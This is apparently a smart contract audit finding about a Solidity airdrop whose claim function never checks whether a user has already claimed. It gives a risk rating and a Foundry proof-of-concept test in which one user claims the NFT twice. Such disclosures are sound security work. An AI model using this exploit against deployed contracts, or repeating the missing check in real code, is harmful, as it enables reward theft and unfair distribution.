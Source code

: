 ## Description

* **Normal Behavior:** Airdrop mechanisms should enforce one claim per eligible user to ensure fair distribution and prevent abuse of the reward system.
* **Specific Issue:** The function sets the claim status to true after processing but never validates if `s_hasClaimedSnowman[receiver]` is already true at the beginning, allowing users to claim multiple times as long as they have Snow tokens and valid proofs.

## Risk

**Likelihood**: Medium

* Users need to acquire additional Snow tokens between claims, which requires time and effort
* Users must maintain their merkle proof validity across multiple claims
* Attack requires understanding of the missing validation check

**Impact**: High

* **Airdrop Abuse**: Users can claim far more NFTs than intended by the distribution mechanism
* **Unfair Distribution**: Some users receive multiple rewards while others may receive none
* **Economic Manipulation**: Breaks the intended scarcity and distribution model of the NFT collection

## Proof of Concept

Add the following test to TestSnowMan.t.sol 

```Solidity
function testMultipleClaimsAllowed() public {
        // Alice claims her first NFT
        vm.prank(alice);
        snow.approve(address(airdrop), 1);

        bytes32 aliceDigest = airdrop.getMessageHash(alice);
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(alKey, aliceDigest);

        vm.prank(alice);
        airdrop.claimSnowman(alice, AL_PROOF, v, r, s);

        assert(nft.balanceOf(alice) == 1);
        assert(airdrop.getClaimStatus(alice) == true);

        // Alice acquires more Snow tokens (wait for timer and earn again)
        vm.warp(block.timestamp + 1 weeks);
        vm.prank(alice);
        snow.earnSnow();

        // Alice can claim AGAIN with new Snow tokens!
        vm.prank(alice);
        snow.approve(address(airdrop), 1);

        bytes32 aliceDigest2 = airdrop.getMessageHash(alice);
        (uint8 v2, bytes32 r2, bytes32 s2) = vm.sign(alKey, aliceDigest2);

        vm.prank(alice);
        airdrop.claimSnowman(alice, AL_PROOF, v2, r2, s2); // Second claim succeeds!

        assert(nft.balanceOf(alice) == 2); // Alice now has 2 NFTs
    }
```
